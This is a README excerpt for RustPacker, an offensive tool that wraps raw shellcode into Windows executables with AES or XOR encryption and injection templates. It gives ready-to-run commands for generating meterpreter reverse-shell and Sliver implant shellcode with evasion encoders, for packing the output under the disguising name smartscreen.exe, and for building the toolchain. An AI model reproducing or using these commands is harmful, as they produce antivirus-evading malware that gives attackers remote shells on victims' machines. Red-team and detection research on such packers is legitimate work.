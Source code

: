 For regular use, you can set an alias:
- On Linux host: `alias rustpacker='podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker'`
- Then: `rustpacker -f shared/calc.raw -i syscrt -e aes -b exe -t smartscreen.exe`

# Full documentation

## Create shellcode
RustPacker is compatible with any raw shellcode.

### Metasploit / MSFvenom
You can generate raw MSF shellcode using msfvenom's raw format. Ex:
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=80 EXITFUNC=thread -f raw -o msf.bin`

### Sliver
You can generate raw [Sliver](https://github.com/BishopFox/sliver) shellcode using Sliver's "--format shellcode". Ex:
- `generate --mtls 127.0.0.1:443 --format shellcode --os windows --evasion`
- You can use Shikata Ga Nai (SGN) Sliver encoder if prompted. RustPacker templates now use RWX memory regions (not really OPSEC safe), which are required for SGN to work.

## Install Rustpacker

### Podman/Docker setup
Consider using Podman instead of Docker for [security reasons](https://cloudnweb.dev/2019/10/heres-why-podman-is-more-secured-than-docker-devsecops/).
From any internet-connected OS with either Podman or Docker installed:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `podman build -t rustpacker -f Dockerfile`
- Paste your shellcode file in the `shared` folder
- `podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker -f shared/calc.raw -i ntcrt -e xor -b exe -t smartscreen.exe`
- Retrieve the output binary along with the Rust source files in the `output_RANDOM_NAME` folder in `shared`

For regular use, you can set an alias:
- On Linux host: `alias rustpacker='podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker'`
- Then: `rustpacker -f shared/calc.raw -i ntcrt -e xor -b exe -t smartscreen.exe`

### Manual install on Kali
Install dependencies:
- `sudo apt update && sudo apt upgrade -y`
- `sudo apt install -y libssl-dev librust-openssl-dev musl-tools mingw-w64 cmake libxml2-dev`

Install Rust:
- https://www.rust-lang.org/tools/install
- `source $HOME/.cargo/env`
- `rustup target add x86_64-pc-windows-gnu`
